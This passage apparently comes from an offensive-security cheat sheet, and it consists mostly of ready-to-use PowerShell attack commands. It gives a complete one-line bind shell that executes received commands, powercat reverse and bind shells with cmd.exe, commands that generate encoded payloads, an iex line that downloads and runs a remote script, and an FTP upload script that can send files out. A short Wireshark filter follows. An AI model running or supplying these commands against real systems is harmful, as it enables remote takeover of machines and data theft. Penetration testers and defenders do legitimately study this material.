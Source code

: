   ```

**Set up a bind shell with PowerShell**
```PowerShell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

**Powercat**

Script: [powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1).

```PowerShell
powercat -c <IP> -p <PORT> -i C:\<DIR>\powercat.ps1                     Send a file
powercat -c <IP> -p <PORT> -e cmd.exe                                   Send a reverse shell
powercat -l -p 443 -e cmd.exe                                           Set up a bind shell; -l option to create a listener, -p to specify the listening port number, -e to have an application executed once connected
powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1             Create a stand-alone payload
powercat -c <IP> -p <PORT> -e cmd.exe -ge > encodedreverseshell.ps1     Create an encoded stand-alone payload with powercat
```

**Load a remote PowerShell script using iex**
```PowerShell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

**Execute an encoded stand-alone payload using PowerShell**
```PowerShell
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHI...
```

**Upload a file to an FTP server**
```PowerShell
$ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://<IP>:<PORT>/<FILE_TO_UPLOAD>"); $ftpRequest.Credentials = New-Object System.Net.NetworkCredential("<USERNAME>", "<PASSWORD>"); $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile; $fileContents = [System.IO.File]::ReadAllBytes((Resolve-Path "<FILE_TO_UPLOAD>")); $ftpRequest.ContentLength = $fileContents.Length; $requestStream = $ftpRequest.GetRequestStream(); $requestStream.Write($fileContents, 0, $fileContents.Length); $requestStream.Close(); $response = $ftpRequest.GetResponse(); $response.Close()
```
- Change `<IP>`, `<PORT>`, `<FILE_TO_UPLOAD>`, `<USERNAME>`, `<PASSWORD>`


## WireShark

**Filters**
- `net 10.10.1.0/24`, capture traffic only on the `10.10.1.0/24` address range
